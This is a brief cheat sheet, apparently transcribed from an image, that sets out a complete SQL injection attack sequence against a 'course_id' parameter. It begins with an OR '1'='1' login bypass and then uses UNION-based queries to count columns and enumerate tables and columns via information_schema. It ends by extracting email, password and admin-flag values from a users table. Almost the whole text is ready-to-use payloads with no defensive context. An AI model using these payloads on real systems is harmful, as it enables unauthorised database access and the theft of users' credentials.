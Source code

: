 # Cheat sheet


Login bypass
```
course_id=3' OR '1'='1
```

Well, is there anything more on the system?
```
course_id=3' UNION ALL SELECT 1 FROM information_schema.tables WHERE '1'='1
course_id=3' UNION ALL SELECT 1,2 FROM information_schema.tables WHERE '1'='1
course_id=3' UNION ALL SELECT 1,2,3 FROM information_schema.tables WHERE '1'='1
```

```
course_id=3' UNION ALL SELECT table_schema, table_name, 1 FROM information_schema.tables WHERE '1'='1
```

Filter out data
```
course_id=3' UNION ALL SELECT table_schema, table_name, 1 FROM information_schema.tables WHERE table_schema=database() AND '1'='1
```

Get columns
```
course_id=3' UNION ALL SELECT column_name, 1, 2 FROM information_schema.columns WHERE table_name="users" AND table_schema=database() AND '1'='1

```

Get the actual data

```
course_id=3' UNION ALL SELECT email, password, is_admin FROM users WHERE '1'='1
```